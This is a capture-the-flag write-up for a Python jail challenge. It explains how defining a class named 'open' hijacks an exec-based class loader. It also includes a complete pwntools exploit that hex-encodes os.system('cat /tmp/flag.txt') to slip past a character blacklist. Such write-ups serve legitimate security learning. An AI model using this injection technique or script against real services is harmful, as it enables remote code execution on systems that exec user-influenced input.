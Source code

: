 # ez-class (misc, 375 points, 17 solves)

>This one is pretty ez
```shell
nc ezclass.bctf23-codelab.kctf.cloud 1337
```

## Overview
This challenge talks about a service that gives us the possibility to create and run classes.
We can specify:
- The class name
- A parent class
- Number of methods
- Method names
- Method params
- Method body

There is no blacklist except for this little one here: `().\n`
We can run a class and also its dependencies. After executing the class, the service returns us an instance of the specified class.

## The first idea
How are we going to execute code if the only thing that gets done is loading the class and instantiating the object?

The first idea that came to my mind is to do some ✨**magic**✨ using [magic functions](https://www.tutorialsteacher.com/python/magic-methods-in-python).
There are so many! But a useful one is [`__new__`](https://www.pythontutorial.net/python-oop/python-__new__/):

>When you create an instance of a class, Python first calls the `__new__()` method to create the object and then calls the `__init__()` method to initialize the object’s attributes.

Using `__new__`, we can return some values and we can execute code, but we can't call functions yet.

Let's take a look at how the classes are loaded:
```python
def exec_class(filename, dependancies, class_name):
    for dep in dependancies:
        with open('/tmp/' + dep, 'r') as f:
            exec(f.read())

    with open('/tmp/' + filename, 'r') as f:
        exec(f.read())

    print('Here is an instance of your class')
    print(locals()[class_name]())
```

If we're able to override `read()` we can get RCE.

## It's time to get out of the pyjail!
We need to:
- Override the `open` function with a class
- Override the `read` with our custom method which needs to return the code to print the flag
- Profit

The class will look like this:
```
class open(object):
    def __init__(filename,*args):
        pass

    def __enter__(self):
        return self

    def __exit__(*args):
        pass

    def read(self):
        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
```

We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
Inside the `read` method, we override the `open` function with our instance of the class `self` and then, we return the code to print the flag.

Now we can create this class inside the service and then run it.
The service will also ask us to specify the dependencies of the class to be executed, we put the class created before.

So the service will behave like this:
Here, we override the open function with our class:

```python
for dep in dependancies:
	with open('/tmp/' + dep, 'r') as f:
		exec(f.read())
```

Now that we've overridden the open function, the code passed above to print the flag will be executed here:
```python
with open('/tmp/' + filename, 'r') as f:
    exec(f.read())
```

The service will then crash at this instruction, but we don't care😈:
```python
print(locals()[class_name]())
```

## The exploit

```python
from pwn import remote

def create_class(p, classname, parent, functions):
    print(f"Creating class {classname}")
    p.sendline(b"1")
    p.sendline(classname.encode())
    p.sendline(parent.encode())
    p.sendline(f"{len(functions)}".encode())
    for function in functions:
        p.sendline(function["name"].encode())
        p.sendline(function["params"].encode())
        p.sendline(function["body"].encode())
    print("Done!")


def run_class(p, torun, dep):
    print(f"Running class {torun}")
    p.sendline(b"2")
    p.sendline(torun.encode())
    p.sendline(dep.encode())
    print("Done!")

def bypass_char_blacklist(code):
    result = ""
    for char in code:
        result += "\\x" + hex(ord(char))[2:].zfill(2)
    return result

clean_code = """
import os
os.system('cat /tmp/flag.txt')
"""

to_exec = bypass_char_blacklist(clean_code)

r = remote("ezclass.bctf23-codelab.kctf.cloud", 1337)

fake_open_classname = "open"
fake_open_parent = "object"
fake_open_functions = [
    {"name": "__init__", "params": "filename,*args", "body": "pass"},
    {"name": "__enter__", "params": "self", "body": "return self"},
    {"name": "__exit__", "params": "*args", "body": "pass"},
    {"name": "read", "params": "self", "body": f"global open;open=self;return \"{to_exec}\""}
]

create_class(r, fake_open_classname, fake_open_parent, fake_open_functions)
run_class(r, fake_open_classname, fake_open_classname)

r.interactive()
```

### Output:
**EZ!**

![EZ!](https://i.imgur.com/2BC2X35.png)


This was my favorite challenge. Thanks to the organizers for this wonderful CTF!

